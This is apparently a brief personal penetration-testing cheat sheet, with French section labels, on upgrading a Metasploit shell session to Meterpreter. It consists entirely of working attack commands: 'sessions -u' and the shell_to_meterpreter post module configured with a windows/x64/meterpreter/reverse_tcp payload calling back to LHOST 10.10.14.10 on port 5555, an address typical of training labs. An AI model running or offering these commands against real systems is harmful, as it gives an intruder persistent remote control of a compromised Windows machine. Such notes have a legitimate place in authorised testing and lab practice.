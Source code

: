 # Shell_to_meterpreter
## simple 
sessions -u <shell>

## toutes les options:
use post/multi/manage/shell_to_meterpreter 
set lport 5555
set lhost 10.10.14.10
set payload windows/x64/meterpreter/reverse_tcp
set session 4



